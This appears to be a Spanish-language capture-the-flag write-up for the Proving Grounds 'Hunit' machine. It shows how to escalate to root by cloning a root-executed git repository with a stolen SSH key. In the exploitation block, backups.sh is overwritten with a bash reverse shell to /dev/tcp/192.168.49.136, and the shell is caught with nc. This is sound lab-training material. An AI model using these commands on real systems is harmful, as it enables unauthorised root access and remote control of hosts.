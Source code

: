 
## DESCRIPTION

Si encontramos un usuario de git ssh, un repositorios de git ejecutado por root, lo podemos modificar para que en la siguiente ejecucuón ejecute nuestro código.

#### Mas información
* https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/hunit/5-privesc-git-user-git-repo-greater-than-root


## EXPLOITATION

```
$ git clone git@192.168.49.136
# cant run this as ssh is running on port 43022 and we have git_id_rsa

# googling git clone using ssh key
Using https://stackoverflow.com/questions/4565700/how-to-specify-the-private-ssh-key-to-use-when-executing-shell-command-on-git
# GIT_SSH_COMMAND='ssh -i private_key_file -o IdentitiesOnly=yes' git clone user@host:repo.git

# cloned
$ GIT_SSH_COMMAND='ssh -i git_id_rsa -p 43022 -o IdentitiesOnly=yes' git clone git@192.168.136.125:/git-server/
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.

# update backups.sh
$ cat backups.sh
!#/bin/bash
bash -c 'bash -i >& /dev/tcp/192.168.49.136/18030 0>&1' &

$ chmod +s /usr/bin/find;

# git add and commit

$ git add backups.sh
$ git commit -m "kashz"
[master f295f14] kashz
 1 file changed, 3 insertions(+), 5 deletions(-)
 mode change 100644 => 100755 backups.sh
 
# push changes to server
$ GIT_SSH_COMMAND='ssh -i ../git_id_rsa -p 43022' git push -u origin
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 8 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 382 bytes | 382.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
To 192.168.136.125:/git-server/
   b50f4e5..f295f14  master -> master
Branch 'master' set up to track remote branch 'master' from 'origin'.

# wait for shell

$ nc -lvnp 18030
listening on [any] 18030 ...
connect to [192.168.49.136] from (UNKNOWN) [192.168.136.125] 51524
bash: cannot set terminal process group (832): Inappropriate ioctl for device
bash: no job control in this shell
[root@hunit ~]# whoami;id;hostname;uname -a
whoami;id;hostname;uname -a
root
uid=0(root) gid=0(root) groups=0(root)
bash: hostname: command not found
Linux hunit 5.9.4-arch1-1 #1 SMP PREEMPT Wed, 04 Nov 2020 21:41:09 +0000 x86_64 GNU/Linux
```

## MACHINES

* Hack The Box: 
* PG: Hunit

